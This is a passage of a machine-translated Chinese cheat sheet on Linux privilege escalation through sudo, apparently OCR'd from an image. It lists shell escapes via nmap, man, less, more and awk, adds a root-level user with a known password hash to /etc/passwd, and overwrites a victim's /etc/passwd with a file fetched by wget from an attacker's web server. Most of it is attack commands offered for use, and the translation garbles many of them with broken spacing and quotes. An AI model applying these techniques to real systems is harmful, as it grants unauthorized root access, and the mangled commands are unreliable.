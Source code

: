 sudo nmap-交互式nmap>！shsh-4.1＃

**注意：****nmap –interactive****选项在最新的****nmap****中不可用。**

没有互动的最新方式

echo“ os.execute（’/ bin / sh’）”> /tmp/shell.nse && sudo nmap —script = / tmp / shell.nse

### **使用**Man**命令**

sudo man man

之后按**！**按下并按Enter

### **使用less**/more**命令**

sudo less / etc / hosts

sudo more / etc / hosts

之后按**！**按下并按Enter

### **使用**awk**命令**

sudo awk’BEGIN {system（“ / bin / sh”）}’

### **使用**nano**命令**

nano是使用此编辑器的文本编辑器，在您需要切换用户之后，您可以修改passwd文件并将用户添加为root特权。在/ etc /passwd中添加此行，以将用户添加为root特权。

touhid：$ 6 $ bxwJfzor $ MUhUWO0MUgdkWfPPEydqgZpm.YtPMI / gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0：0：0：root：/ root：/ bin

sudo nano / etc / passwd

现在切换用户密码是：test

su touhid

### **使用**wget**命令**

这种非常酷的方式要求Web服务器下载文件。这样我从没在任何地方见过。让我们解释一下。

*   首先将Target的/ etc / passwd文件复制到攻击者计算机。
    
*   修改文件，并在上一步中保存的密码文件中添加用户到攻击者计算机。
    
*   仅附加此行=>   **touhid****：****$ 6 $ bxwJfzor $ MUhUWO0MUgdkWfPPEydqgZpm.YtPMI / gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0 / 0****：****b****：****root / root****：**
    
*   将passwd文件托管到使用任何Web服务器的主机。
    

**在受害者方面。**

sudo wget http://192.168.56.1:8080/passwd -O / etc / passwd

现在切换用户密码是：test

su touhid
